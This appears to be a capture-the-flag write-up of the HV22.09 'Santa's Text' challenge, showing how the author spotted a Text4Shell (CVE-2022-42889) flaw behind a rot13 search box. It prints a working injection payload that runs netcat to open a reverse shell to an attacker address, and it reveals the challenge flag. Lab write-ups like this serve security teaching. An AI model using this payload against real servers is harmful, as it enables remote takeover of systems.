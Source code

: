 ```yaml
---
title: "[HV22.09] Santa's Text"
date: 2022-12-09 13:25:29 +0100
categories: HV22 CTF penetration medium exploit reverse shell
---
```


Santa recently created some Text with a 🐚, which is said to be vulnerable code. Santa has put this Text in his library, putting the library in danger. He doesn't know yet that this could pose a risk to his server. Can you backdoor the server and find all of Santa's secrets?

# Solution

So, we got a website again, which looks like this:
![challenge website](/assets/hv22/hv22_09_website.png)

When we enter some string in the search box, we get it displayed back, shifted with rot13. Usual escape characters like single quotes, double quotes, backslash etc. seem to pass fine, so no visible injection possible at least.

While reading the challenge description again, there are two things sticking out. First, the word **Text** comes up twice and is written with a capital T, and the word shell is written as an emoji. Second, in the description, it is mentioned, that if a reverse shell is needed, VPN has to be used.

The game plan is to find an exploit the vulnerability, and then to get a reverse shell working.

Searching the internet for "text shell vulnerability", you quite quickly land at Text4Shell (CVE-2022-42889) and some [example pocs](https://github.com/securekomodo/text4shell-poc) for it.

It looks like we only have to input `${script:javascript:java.lang.Runtime.getRuntime().exec('nc x.x.x.x 3456 -e /bin/bash')}` and then wait for a connection from the target. Of course, it didn't work because of rot13, but since the website already gives me the rot13 version of the string, I can just copy paste it again to get a shell:

![got a reverse shell](/assets/hv22/hv22_09_shell.png)

From here, it's just a bit of looking around for the flag, which shouldn't be too hard since we already are root. The file /SANTA/FLAG.txt (quite easy to find) gives us the flag **HV22{th!s_Text_5h€LL_Com€5_₣₹0M_SANTAA!!}**

![got the flag](/assets/hv22/hv22_09_flag.png)
